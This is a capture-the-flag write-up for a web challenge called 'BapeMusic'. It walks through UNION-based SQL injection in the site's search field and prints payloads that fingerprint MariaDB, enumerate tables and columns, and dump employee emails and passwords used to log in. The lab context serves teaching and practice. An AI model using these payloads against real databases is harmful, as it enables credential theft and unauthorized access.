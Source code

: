 # Challenges:

Log into BapeMusic to get the something...

FLAG Format: EHC{XXX}

# Solution:

They give me a nice looking website with 3 function Search, Sign up, Log in.

After sign up they told the sign up function not avalible, the Log in can't exploit anything because they filter all the symbol for sql injection. We only have last option is the search. I enter some "Entry point dection" symbol and found something at `"`:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/6b72b69c-4671-4912-9899-4bc003ed43d1)

MariaDB is very usefull and try a round with basic query and when trying this query `" UNION SELECT @@version; -- -`, i got:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/dc6a86eb-6b0d-46c9-bc43-6ffd67628c58)

Now, i know what i'm going to to. First check the number of columns and an error at column 5 so it has 4 columns

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a00e51f2-c92e-43a0-94a6-872b6e9c06f4)

Get database name: `" UNION SELECT @@version,database(),3,4; -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/d82360c5-807a-4c56-b913-ad788c4a23fa)

Discover the `sqlinjection` database: `" UNION select TABLE_NAME,TABLE_SCHEMA,3,4 from INFORMATION_SCHEMA.TABLES where table_schema='sqlinjection'-- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/e3be976e-324c-481a-87d9-4bf6c8b94625)

Discorver the `employee` table: `" UNION select COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.COLUMNS where table_name='employee'-- -` and we saw some interesting column:

![image](https://github.com/Katsumi1012/CTF/assets/90083485/327a816c-9690-44aa-85b0-0ac22b6adc54)

Get in there to see data: `" UNION select Email, Password,3,4 from employee -- -`

![image](https://github.com/Katsumi1012/CTF/assets/90083485/a272a556-e2b5-4cce-94b7-284c5b40a1ca)

Siuuuuu. We got the username and password. Now try to login

![1st](https://github.com/Katsumi1012/CTF/assets/90083485/4348cbd7-a9de-4a4d-9891-0df313740a2d)

Get the flag 🚩

# Enjoy 🤡
